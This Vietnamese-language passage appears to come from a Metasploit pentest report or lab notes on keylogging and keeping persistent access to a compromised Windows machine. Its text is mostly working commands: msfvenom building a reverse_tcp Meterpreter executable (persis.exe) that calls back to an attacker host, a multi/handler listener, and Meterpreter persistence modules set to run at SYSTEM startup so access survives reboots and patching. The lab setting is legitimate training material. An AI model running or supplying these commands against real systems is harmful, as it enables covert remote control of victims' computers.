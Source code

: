 Key logging trong MSF

![](../media/MSF%20PENTEST%20REPORT_90.png)

![](../media/MSF%20PENTEST%20REPORT_91.png)

TẤN CÔNG và giữ kết nối vĩnh viễn với Advanced Meterpreter Wormhole

Cách tấn công này giúp tạo 1 process tự động chạy trên máy mục tiêu, giúp vẫn truy cập được hệ thống khi hệ thống đã vá lỗi

run persistence -X -p 442 -i 5 -r  192.168.44.128

-X : tạo agent trên máy mục tiêu

-i: thời gian

-r: nhập ip máy kali tấn công

![](../media/MSF%20PENTEST%20REPORT_92.png)

![](../media/MSF%20PENTEST%20REPORT_93.png)

msfvenom -p windows/meterpreter/reverse_tcp  LHOST=192.168.44.128  LPORT=442 -f exe -a x86 --platform windows -o  persis.exe

![](../media/MSF%20PENTEST%20REPORT_94.png)

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST 192.168.44.128

set LPORT 442

exploit

![](../media/MSF%20PENTEST%20REPORT_95.png)

Tạo persistence bằng meterpreter

run post/windows/manage/persistence_exe REXENAME=persis.exe REXEPATH=/home/kali/persis.exe STARTUP=SYSTEM

bg

options

exploit

Sau khi tạo persistence thì dù khởi động lại exploit thì vẫn có thể kết nối lại bằng nc hoặc qua module:  exploit/multi/handler

![](../media/MSF%20PENTEST%20REPORT_96.png)

PERSISTENCE PART 2:

![](../media/MSF%20PENTEST%20REPORT_97.png)
